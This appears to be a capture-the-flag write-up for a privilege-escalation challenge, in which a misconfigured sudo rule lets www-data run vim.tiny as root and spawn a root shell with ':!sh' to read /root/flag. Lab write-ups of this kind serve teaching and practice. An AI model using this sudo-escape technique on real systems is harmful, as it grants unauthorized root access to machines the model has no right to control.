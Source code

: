 # Challenge (Privilege Escalation)
> This is assuming that you have already gotten interactive shell.

This challenge is created to give attacker an easy way to obtain shell. Because the user `www-data` is given some `sudo` permissions.

You can run below to see what `sudo` permissions your user has.
```sh
$ sudo -l
...
(ALL) NOPASSWD: /usr/bin/vim.tiny
...
```

This means that your user does not need password to run `/usr/bin/vim.tiny` which is `vi`.

So you can run it like this.
```sh
$ sudo /usr/bin/vim.tiny
```

And you will get `vi` which you can run shell from.
```
: !sh
```

And boom! You got root! And you can read the flag at `/root/flag`.
